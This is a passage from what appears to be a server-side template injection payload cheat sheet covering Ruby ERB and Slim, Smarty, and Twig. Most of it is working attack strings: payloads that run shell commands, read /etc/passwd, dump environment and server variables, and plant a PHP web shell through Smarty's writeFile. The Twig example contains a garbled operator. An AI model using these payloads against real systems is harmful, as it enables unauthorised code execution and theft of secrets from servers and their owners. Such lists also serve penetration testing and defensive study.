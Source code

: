 ### Ruby - Code execution

Execute code using SSTI for ERB engine.

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for Slim engine.

```powershell
#{ %x|env| }
```

---

## Smarty

[Official website](https://www.smarty.net/docs/en/)
> Smarty is a template engine for PHP.

```python
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

---

## Twig

[Official website](https://twig.symfony.com/)
> Twig is a modern template engine for PHP.

### Twig - Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{dump(_context)}}
{{app.request.server.all|join(',')}}
```

### Twig - Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```
